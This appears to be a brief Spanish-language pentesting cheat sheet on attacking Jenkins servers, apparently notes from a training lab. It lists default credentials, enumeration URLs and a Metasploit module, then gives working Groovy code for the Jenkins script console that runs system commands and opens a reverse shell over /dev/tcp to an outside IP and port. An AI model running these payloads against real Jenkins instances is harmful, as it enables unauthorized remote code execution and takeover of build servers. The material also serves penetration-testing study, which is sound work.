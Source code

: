 ### INFO

- Es un servidor de automatización escrito en java.
- Corre en un servlet container como Tomcat.
- Suele correr con permitos de system en windows.
- Suele correr en Tomcat en el puerto 8080 por default. Usa el puerto 5000 para usar slave servers.
- Es comun encontrar jenkins con contraseñas por defecto: admin:admin

### ENUM

    http://jenkins.inlanefreight.local:8000/configureSecurity/

#### Metasploit

    auxiliary/scanner/http/jenkins_enum

##### Login page:

    http://jenkins.inlanefreight.local:8000/login?from=%2F

### Explotación

#### Script Console

La script console funciona como una webshell, puede encontrarse en:

        http://jenkins.inlanefreight.local:8000/script

Desde la script console podemos correr comandos con el siguiente script:

        def cmd = 'id'
        def sout = new StringBuffer(), serr = new StringBuffer()
        def proc = cmd.execute()
        proc.consumeProcessOutput(sout, serr)
        proc.waitForOrKill(1000)
        println sout

Podemos también generar una reverse shell:

        r = Runtime.getRuntime()
        p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.10.14.15/8443;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
        p.waitFor()

